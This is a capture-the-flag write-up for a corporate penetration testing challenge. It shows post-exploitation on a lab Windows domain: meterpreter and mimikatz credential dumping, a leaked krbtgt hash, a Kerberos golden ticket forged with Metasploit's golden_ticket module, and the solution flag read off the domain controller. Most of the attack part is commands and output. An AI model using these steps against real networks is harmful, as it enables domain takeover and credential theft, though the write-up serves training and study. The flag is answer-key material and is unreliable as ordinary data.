


Charlie Writeup
===================
## Category
Corporate Penetration Testing

## Question
Gain privileged access to the ECWI.CYSCA domain controller. The flag is located on C:\ of the domain controller.

## Designed Solution
Players find leaked account password hashes in madison.wilton's documents folder. They then use the krbtgt account hash to create a golden ticket and gain access to the domain controller.

## Hints Given
None

## Player Solution Comments
Only one team solved this challenge during the competition. They used the approach documented here.

## Writeup
From reading the question we know we need to gain access to the C:\ drive of the domain controller. While we now have SYSTEM level access on the HOTDESK system, that won't directly transfer to access on the domain controller. We have to propagate and privilege escalate on the network. There are many ways to do this, we look at the `LSA secrets`, dump password hashes with `hashdump`, list the available tokens with `incognito` and use `mimikatz` to dump credentials but find nothing that would give us direct access to the domain controller.

Our next step is to consider other information that could be of assistance, so we look at the `C:\Users` directory to see which other users have used this system. In meterpreter we run `meterpreter > cd C:\\Users` and then `meterpreter > ls`.

```
meterpreter > cd C:\\Users
meterpreter > ls

Listing: C:\Users
=================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  4096  fil   2015-07-27 00:03:06 +1000  All Users
40555/r-xr-xr-x   0     dir   2009-07-14 17:18:34 +1000  Default
40777/rwxrwxrwx   0     dir   2009-07-14 14:53:55 +1000  Default User
40555/r-xr-xr-x   0     dir   2015-07-26 23:28:23 +1000  Public
40777/rwxrwxrwx   0     dir   2015-07-26 23:06:28 +1000  administrator.ECWI
100666/rw-rw-rw-  174   fil   2009-07-14 14:41:57 +1000  desktop.ini
40777/rwxrwxrwx   0     dir   2015-07-26 23:17:14 +1000  jasper.west
40777/rwxrwxrwx   0     dir   2015-08-09 02:47:53 +1000  madison.wilton
40777/rwxrwxrwx   0     dir   2015-09-09 01:14:11 +1000  sam.rouse
```

From the directory listing we can see a number of default users in addition to `administrator.ECWI`, `jasper.west`, `madison.wilton` and `sam.rouse`.

We search for any interesting information or documents in the user folders and we find some documents in `madison.wilton`'s Documents folder named `ECWI - Password Strength Audit`. It looks like the document was authored by our old friend Sarah Burns of Fortress Certifications, They seem to have performed an audit of the domain user passwords for the Initiative.



Reading further we see that there is a comment about the `recovered passwords being reset`, and later it states that `these accounts are marked with an asterisk`. To confirm the passwords have been reset we attempt to pass the administrator's hash to the domain controller and access is denied.

We then notice that the `krbtgt` account hash password `does not have a asterisk` next to it, so perhaps it has not been reset. We should be able to use this hash to generate a kerberos 'golden ticket' for an account of our choosing.



To achieve this, in metasploit we use `post/windows/escalate/golden_ticket` we set `domain` to `ECWI`, set `SESSION` to `2` to use it in our SYSTEM session, we set `USE` to `true` to use it immediately and we set `KRBTGT_HASH` to the NTLM component of the recovered hash.

```
msf post(golden_ticket) > set DOMAIN ECWI
DOMAIN => ECWI
msf post(golden_ticket) > set KRBTGT_HASH CFFB8CEED41946F5FF824620970ADEE2
KRBTGT_HASH => CFFB8CEED41946F5FF824620970ADEE2
msf post(golden_ticket) > set USE true
USE => true
msf post(golden_ticket) > set SESSION 2
SESSION => 2
msf post(golden_ticket) > exploit

[*] Obtaining ECWI SID...
[+] Found ECWI SID: S-1-5-21-129915638-3978508280-3050188809
[*] Looking up Domain Administrator account...
[+] Found User: Administrator
[*] Creating Golden Ticket for ECWI\Administrator...
[+] Golden Ticket Obtained!
[*] Ticket saved to /root/.msf4/loot/20151102140311_default_fd00deadbeef103_golden.ticket_478728.bin
[*] Attempting to use the ticket...
[+] Kerberos ticket applied successfully
[*] Post module execution completed
msf post(golden_ticket) >
```

This module returns successfully so we switch into our SYSTEM session and use `klist` to confirm we have a Kerberos ticket for the domain administrator. We see that there is a ticket for `Administrator @ ECWI`, so we perform a directory listing of `C:\` on the domain controller and then `type` the flag file to get the  flag.

```
msf post(golden_ticket) > sessions

Active sessions
===============

  Id  Type                   Information                    Connection
  --  ----                   -----------                    ----------
  1   meterpreter x86/win32  ECWI\jasper.west @ HOTDESK     192.168.5.100:443 -> 172.16.5.30:50552 (fd00:dead:beef::103)
  2   meterpreter x86/win32  NT AUTHORITY\SYSTEM @ HOTDESK  127.0.0.1:58486 -> 127.0.0.1:4445 (127.0.0.1)

msf post(golden_ticket) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > shell
Process 2756 created.
Channel 15 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\madison.wilton\Documents>klist
klist

Current LogonId is 0:0x3e7

Cached Tickets: (1)

#0>	Client: Administrator @ ecwi.cysca
	Server: krbtgt/ecwi.cysca @ ecwi.cysca
	KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
	Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
	Start Time: 11/2/2015 14:20:36 (local)
	End Time:   11/2/2025 14:20:36 (local)
	Renew Time: 11/2/2035 14:20:36 (local)
	Session Key Type: RSADSI RC4-HMAC(NT)

C:\Users\madison.wilton\Documents>dir \\ECWIDC\C$
dir \\ECWIDC\C$
 Volume in drive \\ECWIDC\C$ has no label.
 Volume Serial Number is 7AD2-2218

 Directory of \\ECWIDC\C$

27/07/2015  12:46 AM    <DIR>          Datastore
15/09/2015  12:48 PM                38 flag.txt
14/07/2009  02:20 PM    <DIR>          PerfLogs
14/07/2015  12:52 AM    <DIR>          Program Files
14/07/2015  12:52 AM    <DIR>          Program Files (x86)
02/07/2015  03:57 AM    <DIR>          Users
24/09/2015  11:41 AM    <DIR>          Windows
               1 File(s)             38 bytes
               6 Dir(s)  23,769,833,472 bytes free

C:\Users\madison.wilton\Documents>type \\ECWIDC\C$\flag.txt
type \\ECWIDC\C$\flag.txt
FLAG{82B3D4698CE6DB33953D4C27C7861621}
```
